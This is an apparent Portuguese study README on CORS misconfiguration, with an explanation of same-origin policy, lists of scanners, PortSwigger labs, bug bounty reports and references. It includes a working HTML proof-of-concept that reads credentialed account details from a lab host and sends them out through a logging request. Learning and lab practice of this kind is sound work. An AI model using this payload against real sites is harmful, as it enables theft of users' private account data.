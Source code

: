 # CORS Misconfiguration - Fórum Técnico de Privacidade

## O que é o CORS?

O padrão CORS (Cross-origin resource sharing) é necessário porque permite que os servidores especifiquem quem pode acessar seus ativos e quais métodos de solicitação HTTP são permitidos a partir de recursos externos.

Uma política de mesma origem requer que tanto o servidor que solicita um recurso quanto o servidor onde o recurso está localizado usem o mesmo protocolo (http://), nome de domínio (internal-web.com) e a mesma porta (80). Então, se o servidor forçar a política de mesma origem, apenas as páginas da web do mesmo domínio e porta poderão acessar os recursos.

O exemplo que foi utilizado foi o basic origin reflection que pega os dados de um site e redireciona para o site do atacante, com isso os dados pessoais ou sensiveis vão para um servidor diferente do original de forma que se reflete tudo que é acessado por um link especifico.

[Apresentação 06/04/23](https://docs.google.com/presentation/d/1w9SqP6dUJggXe67ZAZvJ8MmZoUFOkiP0_AwaTiurOLA/edit?usp=sharing)

## Ferramentas legais para ser utilizadas 🔧

* [CORS Scanner](https://github.com/chenjj/CORScanner)
* [Nuclei templates](https://github.com/projectdiscovery/nuclei)
* [Corsy - CORS Misconfiguration Scanner](https://github.com/s0md3v/Corsy)

## HTML utilizado

```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

## Labs para estudo 🔬

* [CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [CORS vulnerability with trusted insecure protocols](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [CORS vulnerability with internal network pivot attack](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## Bug Bounty reports 📈

* [CORS Misconfiguration on www.zomato.com - James Kettle (albinowax)](https://hackerone.com/reports/168574)
* [CORS misconfig | Account Takeover - niche.co - Rohan (nahoragg)](https://hackerone.com/reports/426147)
* [Cross-origin resource sharing misconfig | steal user information - bughunterboy (bughunterboy)](https://hackerone.com/reports/235200)
* [CORS Misconfiguration leading to Private Information Disclosure - sandh0t (sandh0t)](https://hackerone.com/reports/430249)
* [[██████] Cross-origin resource sharing misconfiguration (CORS) - Vadim (jarvis7)](https://hackerone.com/reports/470298)

## References

* [Think Outside the Scope: Advanced CORS Exploitation Techniques - @Sandh0t - May 14 2019](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)
* [Exploiting CORS misconfigurations for Bitcoins and bounties - James Kettle | 14 October 2016](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [Exploiting Misconfigured CORS (Cross Origin Resource Sharing) - Geekboy - DECEMBER 16, 2016](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Advanced CORS Exploitation Techniques - Corben Leo - June 16, 2018](https://www.corben.io/advanced-cors-techniques/)
* [PortSwigger Web Security Academy: CORS](https://portswigger.net/web-security/cors)
* [CORS Misconfigurations Explained - Detectify Blog](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [CORS Misconfiguration PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CORS%20Misconfiguration/README.md#exploitation)
